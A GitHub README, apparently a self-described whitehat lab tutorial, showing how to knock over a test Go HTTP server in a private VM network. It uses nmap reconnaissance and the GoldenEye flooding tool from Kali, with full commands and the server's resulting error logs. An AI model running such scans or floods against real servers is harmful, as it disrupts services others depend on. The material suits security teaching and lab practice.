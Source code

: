 # HackersDelight
A whitehats' playground

## DoS using Kali

In this experiment, we use 3 machines:  
1. Your laptop, running a Firefox web browser accessing our simple HTTP server.  
2. A VM running our simple HTTP server written in the Go programming language.  
3. A Kali VM as the machine attacking HTTP server.  

### Download Kali VM and DoS tool

Download and run [Kali VM](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)  

Login to the terminal shell of Kali VM, make your own working directory and `git clone https://github.com/jseidl/GoldenEye.git`  

Fix a [known issue](https://github.com/jseidl/GoldenEye/issues/27) in goldeneye.py, line 465:  
```python
#nrEncodings = random.randint(1,len(acceptEncoding)/2)
nrEncodings = random.randint(1, int(len(acceptEncoding)/2))
```

### HTTP Server - The victim

Get the IP of HTTP server vm:  
```sh
$ hostname -I
192.168.234.129
```

Go to the `httpserver` directory, do `chmod +x httpserver` if the binary is not executable.  
Then run the server.  
```sh
$ ./httpserver 
2020/06/29 00:18:02 HTTP Server
2020/06/29 00:18:02 The final redirect URL for gateway router will be: https://dzone.com/refcardz/getting-started-with-etherium-private-blockchain
2020/06/29 00:18:02 0.0.0.0:8288 up and listening
```

### Laptop Firefox browser
From your laptop, use Firefox to access the HTTP server, `http://192.168.234.129:8288/hello`

![httpserver demo](media/httpserver_hello.gif)

### Kali VM - The Attacker

Go back to Kali VM to plan, prepare and attack a victim.  

***Recce phase***  
*1. Where and what am I? (What is my IP?)*  
```sh
$ hostname -I
192.168.234.128
```

*2. Who are around? (Select the victim)*  
```sh
$ nmap 192.168.234.*
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 05:34 EDT
Nmap scan report for 192.168.234.2
Host is up (0.00072s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap scan report for 192.168.234.128
Host is up (0.00075s latency).
All 1000 scanned ports on 192.168.234.128 are closed

Nmap scan report for 192.168.234.129
Host is up (0.0011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (3 hosts up) scanned in 2.87 seconds
```

*3. What are ALL the open ports of victim?*
```sh
$ nmap -p- 192.168.234.129
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 05:35 EDT
Nmap scan report for 192.168.234.129
Host is up (0.00048s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8288/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.56 seconds
```

***Attack phase***  
*4. Now start attacking the victim using `goldeneye`.*  
```sh
$ ./goldeneye.py http://192.168.234.129:8288 -w 50 -s 100 -d
GoldenEye v2.1 by Jan Seidl <jseidl@wroot.org>

Hitting webserver in mode 'get' with 50 workers running 100 connections each. Hit CTRL+C to cancel.
Starting 50 concurrent workers
Starting worker Striker-2
Starting worker Striker-3
Starting worker Striker-4
Starting worker Striker-5
Starting worker Striker-7
Starting worker Striker-8
Starting worker Striker-6
Starting worker Striker-9
...
Starting worker Striker-41
Starting worker Striker-42
Starting worker Striker-45
Initiating monitor
Starting worker Striker-44
Starting worker Striker-46
Starting worker Striker-47
Starting worker Striker-48
Starting worker Striker-51
Starting worker Striker-50
Starting worker Striker-49
```
*5. The HTTP server starts to display errors.*  
```sh
$ ./httpserver 
2020/06/29 00:18:02 HTTP Server
2020/06/29 00:18:02 The final redirect URL for gateway router will be: https://dzone.com/refcardz/getting-started-with-etherium-private-blockchain
2020/06/29 00:18:02 0.0.0.0:8288 up and listening
2020/06/29 00:43:33 GET /hello HTTP/1.1
2020/06/29 00:43:33 Header["Accept-Language"] = ["en-US,en;q=0.5"]
2020/06/29 00:43:33 Header["Connection"] = ["keep-alive"]
2020/06/29 00:43:33 Header["Upgrade-Insecure-Requests"] = ["1"]
2020/06/29 00:43:33 Header["Accept"] = ["text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8"]
2020/06/29 00:43:33 Header["Dnt"] = ["1"]
2020/06/29 00:43:33 Header["Cache-Control"] = ["max-age=0"]
2020/06/29 00:43:33 Header["User-Agent"] = ["Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0"]
2020/06/29 00:43:33 Header["Accept-Encoding"] = ["gzip, deflate"]
2020/06/29 00:43:33 Host = "192.168.234.129:8288"
2020/06/29 00:43:33 RemoteAddr = "192.168.234.1:58641"
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 5ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 10ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 20ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 40ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 80ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 160ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 320ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 640ms
2020/06/29 00:43:50 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:51 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:52 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:53 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:54 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:55 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
...
```

*6. From your laptop, use Firefox to re-access the HTTP server, `http://192.168.234.129:8288/hello`, it waits and hangs.*  

![httpserver timeout](media/httpserver_timeout.JPG)

